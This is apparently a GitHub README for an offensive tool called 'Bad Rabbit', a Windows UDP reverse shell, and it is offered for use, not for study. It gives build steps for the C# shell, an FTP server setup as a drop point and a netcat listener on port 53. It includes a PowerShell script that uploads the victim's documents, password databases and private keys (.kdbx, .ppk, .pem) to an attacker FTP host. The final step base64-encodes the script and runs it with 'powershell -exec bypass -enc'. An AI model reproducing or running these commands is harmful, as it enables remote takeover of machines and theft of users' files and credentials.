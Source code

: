 # Bad Rabbit  
## Windows-Reverse-shell 

## NetCore compiling   

Don't forget like on my payload obfuscation repository is ncessary to compile our C# with NetCore

```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```  
in this Folder using the program.cs and write or copy our code, and compile it.

```sh
dotnet build
```
But if you want the compilation in one file only you can run that:
```sh
dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
## Prerequisties
### Installation of FTP server  
```sh
apt install vsftpd
```  
### if is necessary open the firewall port  
```sh
sudo cp /etc/vsftpd.conf /etc/vsftpd.conf.orig
nano /etc/vsftpd.conf
```  

modify this lines if is necessary :
```sh
listen=YES
listen_ipv6=NO
connect_from_port_20=YES
anonymous_enable=NO
local_enable=YES
write_enable=YES
chroot_local_user=YES
allow_writeable_chroot=YES
secure_chroot_dir=/var/run/vsftpd/empty
pam_service_name=vsftpd
pasv_enable=YES
pasv_min_port=40000
pasv_max_port=45000
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
userlist_deny=NO
```  
and add this if is not in:
```sh
allow_writeable_chroot=YES
```  
```sh
adduser "username" 
echo "username" | sudo tee -a /etc/vsftpd.userlist
sudo systemctl restart vsftpd
```  
## Begin Exploit  
after that check the connection on the server, if it doesn't work give the write rights on the destination folder (on the server)  

### Listen on our server machine 
using netcat on UDP port because we are build a UDP server connection

```sh
nc -luvnp 53
```
Executing our UDP reverse shell which we are compile previously  

### Powershell script to extract all the data we want  
```sh
$WebClient = New-Object System.Net.WebClient
$Dir="C:\Users\$env:UserName\"
$FTP = "ftp://USER:PASSWORD@OURIP/"
foreach($item in (Get-ChildItem $Dir -Recurse -Include *.docx, *.txt, *.xlsx, *.csv, *.pptx, *.kdbx, *.png, *.jpg, *.zip, *.rar, *.ppk, *.pem, *.xml, *.db, *.rtf)){;"Uploading $item...";$URI = New-Object System.Uri($FTP+$item.Name) ;$WebClient.UploadFile($URI, $item.FullName)}
``` 
### We can add any type of file extension and change the folder where we want to extract the data  


### Final step for the success of our exploit; convert string to UTF-16LE and encode in base 64 to bypass the execution problems  
we can use this links but is completely possible to make it in terminal  
https://raikia.com/tool-powershell-encoder/
```sh
powershell.exe -exec bypass -enc .....
```
